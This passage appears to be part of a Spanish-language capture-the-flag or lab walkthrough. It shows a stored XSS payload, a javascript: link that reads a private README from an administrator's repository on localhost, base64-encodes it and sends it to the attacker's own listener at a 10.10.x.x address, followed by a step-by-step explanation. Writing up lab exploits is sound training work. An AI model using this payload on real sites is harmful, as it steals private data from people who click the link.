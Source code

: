 ![paste](./Images1/34.jpeg)

```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.x.x:443/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

La explicación de este JS es:

- Hace una solicitud `fetch()` a `http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md` para obtener el contenido del archivo README.md 
- Cuando recibe la respuesta, la convierte a texto con `response.text()`
- Luego toma ese texto y:
    - Lo codifica con `encodeURIComponent()`
    - Lo decodifica con `unescape()`
    - Lo codifica en base64 con `btoa()`
    - Lo codifica nuevamente con `encodeURIComponent()`
- Envía este dato procesado a `http://10.10.X.X:443/?d=` (un servidor Python que tenemos ejecutando)

Una ves con eso echo, crea un archivo cualquiera dentro del repositorio para que la descripción se vea
